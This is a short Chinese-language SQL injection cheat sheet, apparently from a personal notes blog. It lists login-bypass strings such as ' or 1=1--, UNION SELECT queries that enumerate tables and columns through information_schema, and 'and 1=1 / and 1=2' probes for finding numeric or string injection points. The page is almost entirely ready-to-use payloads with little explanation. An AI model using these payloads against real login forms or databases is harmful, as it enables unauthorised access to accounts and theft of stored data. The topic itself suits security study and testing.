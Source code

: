 ```yaml
---
catalog: true
tags:
    web
    sql
---
```


## 后台万能密码
```sql
	' or 1=1--
	' or 1=1#
	' or 1=1/*
	') or '1'='1--
	') or ('1'='1--
```
## SQL注入基本步骤
![1](/img/sql3.png)  
![2](/img/sql2.png)  
![3](/img/sql1.png)

## 联合查询
```sql
--MySQL 4版本时用version=9，MySQL 5版本时用version=10  
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */  
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */  
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'  

```
## 数字型和字符型的辨别
>数字型：使用经典的 `and 1=1 `和 `and 1=2 `来判断  
>字符型：使用 `' and '1'='1 `和 `' and '1'='2`来判断  
